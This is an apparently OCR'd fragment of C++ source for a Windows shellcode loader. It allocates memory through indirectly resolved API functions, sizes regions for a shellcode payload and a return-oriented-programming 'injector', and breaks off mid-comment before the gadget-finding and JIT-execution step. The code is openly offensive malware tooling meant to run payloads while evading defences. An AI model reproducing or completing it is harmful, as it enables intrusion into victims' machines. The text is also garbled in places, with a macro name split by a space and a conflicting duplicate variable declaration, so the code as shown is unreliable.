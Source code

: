 ```cpp
    // We also release the mutex
    ReleaseMutexFunc(hMutex);

    // We need to close the key handle
    RegCloseKeyFunc(hKey);

    // Allocating space on the heap
    UINT nPages = 0;
    UINT nBytes = 0;
    while (nBytes <= shSize) {
        nBytes += 4096;
        nPages++;
    }
    DWORD rxMemoryRegionSize = (nPages + 1) * PAGE_SIZE * 4;
    DWORD ropInjectorOffset = (nPages + 1) * PAGE_SIZE * 2;

#ifdef _DEBUG
    printfFunc("Shellcode size: %u\n", shSize);
    printfFunc("RX memory size: %u\n", rxMemoryRegionSize);
#endif

#ifdef USE_ISOLATED MEMORY
    // Using isolated memory for ROP injector
    // We allocate memory for the shellcode, then allocate memory for the ROP
    LPVOID address = VirtualAllocFunc(NULL, shSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
#else    
    // Using shared memory for ROP injector
    // We allocate a bigger chunk of memory for the shellcode
    // so we can use the same to store the ROP injector
    LPVOID address = VirtualAllocFunc(NULL, rxMemoryRegionSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
#endif

#ifdef _DEBUG
    if (NULL == address) {
        printfFunc("Couldn't allocate address\n");
        return EXIT_FAILURE;
    }
#endif

#ifdef USE_ISOLATED MEMORY
    LPVOID ropInjectorAddress = VirtualAllocFunc(NULL, N_ROP_GADGETS * MOV_SPACE + 1, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

#ifdef ENABLE_NULL_CHECKS
    if (NULL == ropInjectorAddress) {
        return EXIT_FAILURE;
    }
#endif


#endif
    LPVOID ropInjectorAddress = (LPVOID)((UINT64)address + (UINT64)(ropInjectorOffset));

#ifdef _DEBUG
    printfFunc("RX Memory start address: 0x%llx\n", (ULONG64)address);
    printfFunc("RX Memory end address: 0x%llx\n", (ULONG64)address + rxMemoryRegionSize);
#endif

    /*
    
    The following code takes care of identifying the relevant gadgets for our ROP chain
    It also thinks about JIT compile the ROP injector for us to execute.
```